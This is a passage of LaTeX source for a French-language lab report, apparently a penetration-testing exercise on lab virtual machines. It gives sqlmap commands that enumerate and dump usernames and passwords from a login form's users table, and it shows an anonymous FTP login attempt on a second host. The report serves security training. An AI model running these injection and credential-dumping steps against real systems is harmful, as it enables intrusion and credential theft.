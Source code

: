 \documentclass[a4paper,12pt]{report}
\begin{document}
\begin{enumerate}
\item Extraction des colonnes de la table users
\begin{lstlisting}
sqlmap -u "http://192.168.44.101/login.php" --data "username=admin&password=test" -D infra_db -T users --columns
\end{lstlisting}
\begin{figure}[H] 
\label{web1-colonnes-kali}
    \centering
\texttt{[image: img/webserver1\_sql\_injection\_columns.png]} 
\caption{détection des colonnes de la table users}
\end{figure}

\item Étape 8 : Récupération des identifiants
\begin{lstlisting}
sqlmap -u "http://192.168.44.101/login.php" --data "username=admin&password=test" -D infra_db -T users -C username,password --dump
\end{lstlisting}
\begin{figure}[H] 
\label{web1-rows-kali}
    \centering
\texttt{[image: img/webserver1\_sql\_injection\_rows.png]} 
\caption{détection des lignes de la table users}
\end{figure}
\end{enumerate}

\section{Exfiltration de données via FTP sur Webserver2}

L'attaque se fait à partir de la vm Kali (192.168.1.101) sur la vm Webserver2 (192.168.44.102). Au scan avec nmap du sous réseau 192.168.44.0/24, on constate que la machine à l'adresse $192.168.44.102$ a le port $21$ ouvert. 

\begin{figure}[H] 
\label{web2-nmap}
    \centering
\texttt{[image: img/webserver2\_ftp\_attack1.png]} 
\caption{Le port 21 est ouvert sur la cible}
\end{figure}

On tente une connexion anonyme (nom d'utilisateur : "anonymous" et pas de mot de passe) c'est à dire que l'on a pas de compte pour voir si la connexion n'est pas réservée à des comptes enregistrés.

\begin{lstlisting}
    ftp 192.168.44.102
\end{lstlisting}

\begin{figure}[H] 
\label{web2-con-anonyme}
    \centering
\texttt{[image: img/webserver2\_ftp\_attack2.png]} 
\caption{connexion anonyme possible}
\end{figure}
\end{document}
